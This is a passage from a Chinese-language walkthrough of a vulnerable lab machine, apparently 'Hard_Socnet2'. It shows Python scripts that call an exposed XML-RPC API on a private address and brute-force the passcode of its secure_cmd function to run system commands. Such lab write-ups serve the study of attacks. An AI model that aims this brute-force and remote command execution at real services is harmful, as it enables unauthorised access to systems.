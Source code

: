 
3. 根据上面的示例，结合源代码，写一个 python 脚本进行测试：
    ```python
    import xmlrpc.client
    # 目标在 8000 端口开放了 api，前面 nmap 扫描出来了
    with xmlrpc.client.ServerProxy("http://192.168.0.100:8000/") as proxy:
        print(proxy.cpu())
    ```

    结果令人满意：
    ![image-20240124160245506](Hard_Socnet2/image-20240124160245506.png)

4. 根据源码中的 `runcmd(cmd)` 函数，xmlrpc.client 应该可以执行系统命令。但是 `runcmd()` 函数没有注册，而是注册了 `secure_cmd(cmd, passcode)`。这个 passcode 是需要知道的，亦或者暴力破解。

5. 写一个暴力破解的脚本：
       ```python
       import xmlrpc.client
       
       with xmlrpc.client.ServerProxy("http://192.168.0.100:8000/") as proxy:
           for i in range(9999):
               result = proxy.secure_cmd("id", i)
               if result != "Wrong passcode.":
                   print (i)
                   print(result)
                   break
       ```
